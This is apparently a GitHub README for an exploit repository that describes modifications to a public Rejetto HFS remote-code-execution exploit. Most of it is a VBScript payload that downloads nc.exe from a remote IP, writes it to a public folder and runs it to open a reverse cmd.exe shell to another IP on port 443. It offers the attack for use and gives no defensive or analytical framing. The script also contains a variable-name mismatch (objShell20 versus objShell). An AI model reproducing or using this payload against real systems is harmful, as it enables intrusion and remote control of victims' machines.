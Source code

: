 # CanvasTools

Series of updates for exploits
# Initial Access
## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:  https://github.com/darkniyt/CanvasTools/blob/main/39161.py
Source:  Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc.exe", False
xHttp.Send
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc.exe -d 10.6.26.44 443 -e cmd.exe")
